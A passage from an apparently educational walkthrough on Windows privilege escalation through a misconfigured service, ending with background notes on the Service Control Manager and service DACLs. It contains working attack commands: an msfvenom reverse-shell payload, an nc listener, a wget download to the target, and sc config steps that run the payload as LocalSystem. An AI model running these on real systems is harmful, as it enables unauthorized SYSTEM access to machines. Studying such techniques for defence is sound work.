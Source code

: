 The `BUILTIN\\Users` group has the `SERVICE_ALL_ACCESS` permission, which means any user can reconfigure the service.

3. Build another exe-service reverse shell and start a listener for it on the attacker's machine:

```text
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP address attack machine> LPORT=4447 -f exe-service -o rev-svc3.exe

# nc -lvp 4447

# python3 -m http.server                                    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
  
4. On the target machine, in powershell, pull it down:

```text
wget http://<IP address attack machine>:8000/rev-svc3.exe -O rev-svc3.exe
```

5. Grant permissions to `Everyone`:

```text
C:\> icacls C:\Users\unprivilegedusername\rev-svc3.exe /grant Everyone:F
```

6. Change the service's associated executable and account:

```text
C:\> sc config NamedService binPath= "C:\Users\unprivilegedusername\rev-svc3.exe" obj= LocalSystem
```

We can use any account to run the service. `LocalSystem` is just the highest privileged account available. 

To trigger the payload, restart the service:

```text
C:\> sc stop NamedService
C:\> sc start NamedService
```

## Notes

Windows services are managed by the Service Control Manager (SCM). The SCM is a process in charge of managing the state of services as needed, checking the current status of any given service and generally providing a way to configure services.

* Use the `sc qc someservice` command for more info on a service. The associated executable is specified through the`BINARY_PATH_NAME` parameter, and the account used to run the service is shown on the `SERVICE_START_NAME` parameter.
* Services have a Discretionary Access Control List (DACL), which indicates who has permission to start, stop, pause, query status, query configuration, or reconfigure the service, amongst other privileges. 
* All services configurations are stored in the registry under `HKLM\SYSTEM\CurrentControlSet\Services\`
* A subkey exists for every service in the system. If a DACL has been configured for the service, it will be stored in a subkey called `Security`. Only administrators can modify such registry entries by default.
